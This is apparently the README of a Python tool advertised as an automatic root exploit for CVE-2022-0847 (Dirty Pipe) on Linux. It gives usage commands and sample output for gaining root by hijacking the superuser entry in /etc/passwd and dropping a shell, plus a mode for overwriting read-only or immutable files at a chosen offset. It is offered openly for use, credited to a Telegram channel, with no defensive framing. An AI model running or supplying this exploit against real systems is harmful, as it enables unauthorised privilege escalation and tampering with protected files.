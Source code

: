 # Dirty Pipe automatic root exploit
## CVE-2022-0847

## Dependencies:
- **Python 3.10 or above**

## How to use:
### Automatic root:
```
$ python3.10 dirtyPipe.py -a
[+] hjacking super user in /etc/passwd
[+] dropipng shell
#  
```

### Write a no write permission, imutable or read-only mounted file:
```
$ python3.10 dirtyPipe.py -e FILE OFFSET DATA  # for write a file
```

#### An oferring from [**@terabitSec 🦜**](https://t.me/terabitSec).